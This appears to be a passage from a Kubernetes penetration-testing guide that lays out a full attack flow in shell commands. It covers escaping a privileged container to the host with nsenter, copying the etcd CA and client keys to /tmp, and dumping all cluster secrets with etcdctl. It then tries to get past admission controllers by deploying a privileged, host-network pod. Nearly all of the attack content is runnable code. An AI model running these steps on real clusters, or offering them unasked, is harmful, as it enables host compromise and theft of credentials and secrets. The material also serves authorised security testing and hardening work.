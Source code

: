 ### Container Breakout to Host Compromise

**Complete Attack Flow:**

```bash
# 1. Identify container escape vectors
mount | grep docker
ls -la /proc/self/ns/
cat /proc/self/status | grep Cap

# 2. Escape via privileged container
if [ "$(grep 'docker\|lxc' /proc/1/cgroup)" ]; then
    echo "In container - attempting escape"
    nsenter -t 1 -m -u -i -n -p /bin/bash
fi

# 3. Host reconnaissance
ps aux | grep kube
netstat -tulpn | grep -E "2379|10250|10255"
find /etc -name "*.crt" -o -name "*.key" 2>/dev/null

# 4. Steal etcd certificates and data
cp /etc/kubernetes/pki/etcd/ca.crt /tmp/
cp /etc/kubernetes/pki/etcd/client.crt /tmp/
cp /etc/kubernetes/pki/etcd/client.key /tmp/

# 5. Access etcd directly
ETCDCTL_API=3 etcdctl --endpoints=https://127.0.0.1:2379 \
    --cert=/tmp/client.crt --key=/tmp/client.key \
    --cacert=/tmp/ca.crt get / --prefix --keys-only

# 6. Extract all secrets from etcd
ETCDCTL_API=3 etcdctl --endpoints=https://127.0.0.1:2379 \
    --cert=/tmp/client.crt --key=/tmp/client.key \
    --cacert=/tmp/ca.crt get /registry/secrets --prefix
```

### Admission Controller Bypass

**Testing Admission Controller Security:**

```bash
# 1. Identify admission controllers
kubectl get validatingadmissionwebhooks
kubectl get mutatingadmissionwebhooks

# 2. Test webhook bypass techniques
# Create pod with invalid configuration
cat << EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: test-bypass
spec:
  containers:
  - name: test
    image: nginx
    securityContext:
      privileged: true
  hostNetwork: true
EOF

# 3. Test webhook availability
curl -k https://webhook-service.namespace.svc.cluster.local:443/validate

```